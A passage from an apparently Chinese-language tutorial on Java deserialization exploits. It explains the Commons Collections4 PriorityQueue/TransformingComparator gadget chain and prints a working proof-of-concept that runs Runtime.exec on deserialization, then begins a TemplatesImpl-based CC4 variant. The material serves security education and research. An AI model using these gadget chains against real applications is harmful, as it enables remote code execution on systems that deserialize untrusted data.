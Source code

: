 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108311626962.png-water_print](assets/1699411715-9f0983a2ceef50a5b1a4e6bb4c1b8060.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108311626962.png-water_print")

总结起来就是：

-   `java.util.PriorityQueue` 是一个优先队列 (Queue)，基于二叉堆实现，队列中每一个元素有自己的优先级，节点之间按照优先级大小排序成一棵树。
    
-   反序列化时调用 `heapify()` 方法，是为了反序列化后，需要恢复这个结构的顺序。
    
-   排序是靠将大的元素下移实现的。`siftDown()` 是将节点下移的函数，而 `comparator.compare()` 用来比较两个元素大小。
    
-   `TransformingComparator` 实现了 `java.util.Comparator` 接口，这个接口用于定义两个对象如何进行比较。 `siftDownUsingComparator()` 中就使用这个接口的 `compare()` 方法比较树的节点。
    

POC 如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>``` | ```java<br>package CC4Test;<br><br>import org.apache.commons.collections4.Transformer;<br>import org.apache.commons.collections4.comparators.TransformingComparator;<br>import org.apache.commons.collections4.functors.ChainedTransformer;<br>import org.apache.commons.collections4.functors.ConstantTransformer;<br>import org.apache.commons.collections4.functors.InvokerTransformer;<br><br>import java.io.ByteArrayInputStream;<br>import java.io.ByteArrayOutputStream;<br>import java.io.ObjectInputStream;<br>import java.io.ObjectOutputStream;<br>import java.lang.reflect.Field;<br>import java.util.Comparator;<br>import java.util.PriorityQueue;<br><br>public class CC4Test {<br>    public static void main(String[] args) throws Exception {<br>        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};<br><br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),<br>                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] {null, new Object[0] }),<br>                new InvokerTransformer("exec",new Class[] { String.class }, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})<br>        };<br><br>        Transformer transformerChain = new ChainedTransformer(fakeTransformers);<br><br>        Comparator comparator = new TransformingComparator(transformerChain);<br>        PriorityQueue queue = new PriorityQueue(2, comparator);<br><br>        queue.add(1);<br>        queue.add(2);<br>        <br>        Field f = transformerChain.getClass().getDeclaredField("iTransformers");<br>        f.setAccessible(true);<br>        f.set(transformerChain, transformers);<br><br>        // 序列化<br>        ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(barr);<br>        oos.writeObject(queue);<br>        oos.close();<br><br>        // 反序列化<br>        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));<br>        ois.readObject();<br>    }<br>}<br>``` |

#### [](#422-commonscollection4-gadget)4.2.2 CommonsCollection4 Gadget

改进 PriorityQueue 利用链：因为 CommonsCollections4 除 4.0 的其他版本去掉了 InvokerTransformer 的 Serializable 继承，导致无法序列化。所以便有了 CC4，CC4 只是将 CC2 中的 InvokerTransformer 替换为了 InstantiateTransformer。

创建 `TemplatesImpl` 对象：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```java<br>TemplatesImpl obj = new TemplatesImpl();<br>setFieldValue(obj, "_bytecodes", new byte[][]{getBytescode()});<br>setFieldValue(obj, "_name", "HelloTemplatesImpl");<br>setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());<br>``` |

创建一个正常的 `InvokerTransformer` 对象，并用它实例化 `Comparator` :

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```java<br>Transformer transformer = new InvokerTransformer("toString", null, null);<br>Comparator comparator = new TransformingComparator(transformer);<br>``` |
